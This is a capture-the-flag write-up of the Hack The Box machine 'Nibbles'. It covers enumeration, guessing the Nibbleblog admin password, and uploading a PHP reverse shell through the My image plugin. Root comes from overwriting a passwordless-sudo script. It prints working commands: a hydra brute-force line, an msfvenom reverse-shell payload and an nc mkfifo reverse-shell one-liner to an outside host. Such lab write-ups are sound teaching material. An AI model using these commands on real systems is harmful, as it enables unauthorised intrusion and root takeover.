









# Nibbles


## Initial Enumeration

As usual, we start with a quick and easy nmap scan. I generally do this before diving into full port scans and NSE scripts so I can start to explore things as those more verbose scans run, but in this case those weren't needed.

```bash
nmap -sV 10.10.10.75
```

From that we can see we have a rather narrow attack surface:



If we're given ssh and an HTTP server as possible attack vectors, we can almost always assume the HTTP server is the target. Vulnerabilities in SSH aren't too common and generally won't be found on challenges ranked easy. That being said, let's dive into this HTTP server. Navigating to `http://10.10.10.75/` brings us to a page simply saying `Hello World!`, but after looking at the page source we see the following:

```html
<b>Hello world!</b>


<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Naturally we go to `http://10.10.10.75/nibbleblog` and find a web page ran on a product named `Nibbleblog`. Let's dig a little deeper into this site with a gobuster scan:

```bash
gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,md,html -t 50
```



From this we see two things of interest. `nibbleblog/README` is a great place to find versioning information and `nibbleblog/admin.php` will generally give us a chance to attack an admin login page. Starting with `nibbleblog/README` we see the following at the top of the file:

```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com
```

Next let's take a look at `nibbleblog/admin.php`. As expected, we find a login page. After a quick google didn't bring up a set of default credentials I'll use hydra to brute force the login with the username `admin`. To see what's really going on with this form, we start up our Burp Suite proxy and submit a test login attempt to see how the data is being sent. Shown below is the captured login attempt:

```http
POST /nibbleblog/admin.php HTTP/1.1
Host: 10.10.10.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.75/nibbleblog/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Connection: close
Cookie: PHPSESSID=0cnrenp6euhttr8p0sbsut6pn5
Upgrade-Insecure-Requests: 1

username=USER&password=PASS
```

Using this information we can set up hydra to start a dictionary attack against this login. The syntax for this attack is as follows:

```bash
hydra -P /usr/share/wordlists/nmap.lst -l admin 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect"
```

Unfortunately this leads to us being blacklisted by the application: 



After waiting a few minutes we're taken off the blacklist and can access the login page once again. This time we take a more simple approach and guess the password. The general rule of thumb here is to think like a lazy sysadmin. After a few attempts I ended up finding the credentials `admin:nibbles`. Just to satisfy my own curiosity, I verified that the password `nibbles` would in fact have been found by my hydra scan if we weren't blacklisted :).


## Execution

With access to the admin console as well as the version information, we are well on our way to our initial shell. Using searchsploit we can check for public exploits:



This [exploit](https://www.exploit-db.com/exploits/38489) tells us that an attacker can use the plugin `My image` to upload a php file and then execute it at `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`. Instead of using metasploit for this, I prefer to exploit it on my own. First we'll need a reverse shell to upload. To do this we'll use `msfvenom` to generate the payload:

```bash
echo '<?php' > evil.php && msfvenom -p php/reverse_php LHOST=$(tunip) LPORT=31337 -f raw >> evil.php && echo '?>' >> evil.php
```


`tunip` is a handy bash alias I use to get my current IP address for Hack The Box. it is set to `ifconfig tun0 | sed -n '2 p' | awk '{print \$2}'` in my `~/.bash_aliases`

With this we can now select our file for upload in the plugin's configuration menu:



After clicking `Save Changes` you'll get some error messages, but this isn't a problem. Navigating to `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php` triggers our reverse shell on port `31337`. With this we are able to get the user flag:



## Privilege Escalation

Going to the user `nibbler`'s home directory gives us a `personal.zip` file. Using `unzip` we can decompress this file and discover a file `personal/stuff/monitor.sh` which looks to be a custom monitoring script. Following my usual steps, I then run `sudo -l` to see if we have passwordless sudo access to anything:



Well that certainly makes this process easier. This tells us that we can execute the file `/home/nibbler/personal/stuff/monitor.sh` with sudo permissions _without_ supplying a password. To exploit this I'm simply going to overwrite that file with a bash reverse shell back to my Kali host on a different port. To do this I'll run the following:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4443 >/tmp/f' > /home/nibbler/personal/stuff/monitor.sh
chmod +x /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

Running these commands in our user shell replaces the contents of `monitor.sh` with a reverse shell, then executes that reverse shell with root privileges. With this we are able to read the root flag:


